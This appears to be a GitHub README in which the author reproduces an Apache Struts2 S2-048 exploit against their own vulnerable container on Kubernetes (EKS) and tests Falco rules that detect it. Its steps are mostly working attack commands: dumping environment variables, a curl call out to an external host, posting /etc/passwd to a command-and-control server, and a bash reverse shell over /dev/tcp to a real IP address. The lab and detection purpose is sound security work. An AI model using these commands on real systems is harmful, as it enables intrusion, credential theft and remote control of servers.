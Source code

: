 # struts_poc  
all credit to https://github.com/hook-s3c/apache-struts2-PoC, all I did was make it work in EKS  

![image](https://user-images.githubusercontent.com/4404271/153259381-52907b2b-ab78-4699-bde6-0cf7b35393a8.png)

## There are sometimes holes.
## This is nothing more than good old Kali struts poc rev shell in a k8s cluster. Simple.  
## Scroll down for a tldr GIF :-)  

![image](https://user-images.githubusercontent.com/4404271/155650062-66a0d0e0-5091-4dd0-9eb9-cb125d21dddb.png)


`Here's a bit of a reminder to myself for how I did this:`    

git clone https://github.com/hook-s3c/apache-struts2-PoC  
cd apache-struts2-PoC/  
docker build -t struts .  
docker run -it --rm -d -p 8080:8080 struts:latest  
docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest  

#public login to us-west-2 not supported by aws, no worries it's supported in us-east-1 so let's just do it there ;-)  

aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws  
docker push public.ecr.aws/v9f6i2g3/stuff:latest  
kubectl apply -f strust-deploy-and-service.yaml  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC  
  
kubectl get service -n struts  
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE  
struts   LoadBalancer   10.100.144.108   12345.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m

`Step 1`  

First, on the cc server, start some simple web server such as: python3 webserver.py  

`Step 2`  

OK now we can attack, from the attacker "box" (actually just a tmux on my ubuntu box):  

cd ~/apache-struts2-PoC  
python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'env'  

...and we dump the environment to the CC server, not good!  

KUBERNETES_SERVICE_PORT_HTTPS=443  
KUBERNETES_SERVICE_PORT=443  
STRUTS_PORT_8080_TCP_PORT=8080  
STRUTS_SERVICE_PORT=8080  
HOSTNAME=struts-7d8c95bbbd-9p9pp  
JAVA_HOME=/usr/local/openjdk-8  
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42
etc..  
  
`Step 3`  

OK that was fun, what else can we do? Curl?  

python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'curl jumpbox.brett1.com:8080\hi_from_inside_the_container_in_our_cluster

I wondered if I could modify an existing Falco rule to warn on curl GET? Yes! We can get granular enough to tell the difference between a curl POST and a curl GET that is awesome!  
So, this GET shows up on our little CC web server, and logs in Sysdig Events as a warning about curl, naughty, but I'll allow it, this time!  

`Step 4`  

OK now with our confidence sky high, through the roof, let's post the whole dang passwd file to our CC server here we go:  

python exploitS2-048-cmd.py 12345.us-west-2.elb.amazonaws.com:8080 'curl -d @/etc/passwd jumpbox.brett1.com:8080

And believe me, that works! We see the passwd file appearing in our CC server.  
But we want to block it, easy enough, we simply enable a policy with a Falco rule to kill the container iif there is a curl POST  
And it works! The container is killed so quickly, the passwd never shows up on the CC server (I know, I tested it probably a hundred times)  

`Step 5`  

So now to put the cherry on top, let's do a reverse shell:  
On our CC server let's just listen like so: nc -l 4242  

And then from our attack box let's do it:  
python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'bash -i >& /dev/tcp/52.206.9.54/4242 0>&1'

And if you like to watch animations here we are:  

![struts_rs](https://user-images.githubusercontent.com/4404271/153033823-b0d10a6b-4faa-4f0e-b8d1-8dde69cf1562.gif)

![image](https://user-images.githubusercontent.com/4404271/153435925-60ccd750-ad11-4f80-ad72-e27f01d75e09.png)

![image](https://user-images.githubusercontent.com/4404271/153497163-7b424dc2-3652-4798-9200-1606fd54876f.png)

![image](https://user-images.githubusercontent.com/4404271/153490296-a07fb685-8b04-48bb-8af0-7bff11cc2c21.png)


